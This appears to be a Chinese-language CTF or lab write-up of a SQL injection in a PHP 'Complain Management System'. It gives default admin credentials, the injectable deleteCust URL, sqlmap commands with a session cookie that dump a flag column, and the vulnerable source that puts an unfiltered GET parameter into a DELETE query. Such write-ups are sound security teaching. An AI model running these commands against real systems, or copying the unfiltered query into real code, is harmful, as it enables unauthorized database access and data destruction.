





# <center>Complain Management System - SQL injection</center> #

<center></center>

## 1.&emsp;漏洞描述 ##

* 漏洞简述： 由于Complain Management System在登陆后某处没有对参数过滤严格，导致sql注入。
* 影响版本： NOT Supplied

## 2.&emsp;漏洞简介 ##

&emsp;&emsp;Complain Management System是在线用户反馈平台。

&emsp;&emsp;该漏洞主要的产生原因是未做过滤导致的sql注入。

## 3.&emsp;漏洞分析 ##

&emsp;&emsp;首先们看一下如何利用这个漏洞，打开ip:port  

<center></center>


&emsp;&emsp;输入`admin`/`admin123`选择`Administrator`点击`Login Now`进入系统。  

<center></center>


访问`ip:port/process.php?action=deleteCust&cId=123`会发现跳转，我们记录下这个地址还有登录过后的cookie值：

<center></center>


sqlmap 命令:`sqlmap -u "http://ip:port/process.php?action=deleteCust&cId=123" --cookie="PHPSESSID=t1bc9vj67odrj3bd096g0rffe0"`得出目标存在注入：  

<center></center>

sqlmap 命令: `sqlmap -u "http://218.2.197.232:25278/process.php?action=deleteCust&cId=123" --cookie="PHPSESSID=t1bc9vj67odrj3bd096g0rffe0" -D complain_db -T flag -C sname --dump`得到flag值。

###源码解析
定位到process.php文件:

```php

function deleteCust()
{
	//echo 'Add Comment on Complain...';
    $cId = $_GET['cId'];
	//$empComment = $_POST['empComment'];
	$sql = "DELETE FROM tbl_customer
				WHERE cid = $cId";
	$result = dbQuery($sql);
	header("Location: view.php?mod=admin&view=custDetails");
	exit;
}

```

可见为对参数为进行过滤，导致sql注入。


## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境源码下载 ###

下载相应版本系统  

### 4.2&emsp;安装环境和导入数据库 ###

* 在Linux下直接安装Apache+php5环境，然后将源码导入到/var/www/html文件夹下。
* 启动Apache服务，再导入数据库内容即可。


### 4.3&emsp;漏洞复现（SQLI） ###

如上

## 5.&emsp;修复意见 ##

&emsp;&emsp;添加过滤函数  
